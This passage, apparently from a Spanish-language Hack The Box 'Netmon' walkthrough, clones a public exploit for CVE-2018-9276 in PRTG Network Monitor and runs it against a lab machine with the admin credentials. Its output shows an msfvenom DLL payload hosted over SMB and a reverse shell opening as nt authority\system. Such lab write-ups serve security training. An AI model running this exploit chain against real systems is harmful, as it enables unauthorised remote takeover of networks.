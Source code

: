 ```
# git clone https://github.com/A1vinSmith/CVE-2018-9276.git
```

`Ejecutamos` el `exploit` y ganamos acceso como `nt authority\system`

```
# python3 exploit.py -i 10.129.230.176 -p 80 --lhost 10.10.16.16 --lport 443 --user prtgadmin --password PrTg@dmin2019
[+] [PRTG/18.1.37.13946] is Vulnerable!

[*] Exploiting [10.129.230.176:80] as [prtgadmin/PrTg@dmin2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] File staged at [C:\Users\Public\tester.txt] successfully with objid of [2018]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2018] staged for execution
[*] Generate msfvenom payload with [LHOST=10.10.16.16 LPORT=443 OUTPUT=/tmp/yblrbveq.dll]
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 9216 bytes
/home/justice-reaper/Desktop/Netmon/exploits/CVE-2018-9276/exploit.py:294: DeprecationWarning: setName() is deprecated, set the name attribute instead
  impacket.setName('Impacket')
/home/justice-reaper/Desktop/Netmon/exploits/CVE-2018-9276/exploit.py:295: DeprecationWarning: setDaemon() is deprecated, set the daemon attribute instead
  impacket.setDaemon(True)
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Hosting payload at [\\10.10.16.16\VEKIWGVF]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Command staged at [C:\Users\Public\tester.txt] successfully with objid of [2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2019] staged for execution
[*] Attempting to kill the impacket thread
[-] Impacket will maintain its own thread for active connections, so you may find it's still listening on <LHOST>:445!
[-] ps aux | grep <script name> and kill -9 <pid> if it is still running :)
[-] The connection will eventually time out.

[+] Listening on [10.10.16.16:443 for the reverse shell!]
listening on [any] 443 ...
[*] Incoming connection (10.129.230.176,51467)
[*] AUTHENTICATE_MESSAGE (\,NETMON)
[*] User NETMON\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Disconnecting Share(1:IPC$)
connect to [10.10.16.16] from (UNKNOWN) [10.129.230.176] 51469
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

